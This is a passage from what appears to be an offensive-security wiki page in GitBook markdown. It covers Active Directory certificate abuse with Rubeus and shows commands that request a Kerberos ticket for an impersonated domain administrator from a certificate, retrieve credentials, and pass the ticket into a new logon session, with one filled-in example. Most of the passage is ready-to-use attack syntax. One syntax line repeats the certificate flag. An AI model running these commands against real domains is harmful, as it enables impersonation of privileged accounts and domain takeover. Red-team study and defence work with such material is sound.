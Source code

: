 {% tab title="Rubeus" %}
{% code overflow="wrap" %}
```powershell
# Syntax (if certificate password was specified)
Rubeus.exe asktgt /user:<DomainAdmin> /password:<password> /aes256 /nowrap /getcredential /certificate:<Base64-Cert> or <path to PFX file>

# Syntax (certificate password not specified)
Rubeus.exe asktgt /user:<DomainAdmin> /certificate:<Base64-Cert> /aes256 /nowrap /getcredential /certificate:<Base64-Cert> or <path to PFX file>
```
{% endcode %}
{% endtab %}
{% endtabs %}

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

With a TGT for the impersonated user  either pass the ticket directly into the current session, or use createnetonly to create a new  sacrificial logon session with the impersonated users ticket (preferred)

{% tabs %}
{% tab title="Invoke-Rubeus" %}
{% code overflow="wrap" %}
```powershell
# Syntax
Invoke-Rubeus -Command "createnetonly /program:c:\windows\system32\cmd.exe /username:<user> /password:fakepass /ptt /show /domain:<domain> /dc:<Domain Controller> /ticket:<ticket>"

# Example
Invoke-Rubeus -Command "createnetonly /program:c:\windows\system32\cmd.exe /username:arbiter /password:fakepass /ptt /show /domain:security.local /dc:dc01.security.local /ticket:doIGV<--Snip -->"
```
{% endcode %}
{% endtab %}

